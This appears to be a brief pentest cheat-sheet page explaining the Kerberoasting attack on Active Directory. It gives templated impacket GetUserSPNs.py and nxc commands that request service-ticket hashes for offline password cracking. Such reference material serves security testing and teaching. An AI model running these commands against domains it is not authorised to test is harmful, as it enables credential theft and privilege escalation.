

# Kerberoasting

### Kerberoasting

Kerberoasting is an Active Directory attack where any authenticated domain user requests a Kerberos service ticket for a service account with an **SPN**, saves the ticket, and cracks it offline to recover the service account password if that password is weak; this is dangerous because it does not require administrator rights, does not trigger account lockouts during cracking, and can lead to lateral movement or privilege escalation when the service account has broad access.

<figure><figcaption></figcaption></figure>

### Exploitation

Kerberoasting can be exploited with impacket or with nxc. Some examples are:

```bash
# 1. retrieve all - KERBEROAST - able accounts from the domain
GetUserSPNs.py '{{DOMAIN}}'.'{{ROOTDNS}}'/'{{USERNAME}}':'{{PASSWORD}}' -dc-ip {{RHOST}} -request -outputfile hashes.kerberoast
 
# 2. utilizing nxc
nxc ldap {{RHOST}} -u '{{USERNAME}}' -p '{{PASSWORD}}' --kerberoast kerberoast.txt
```
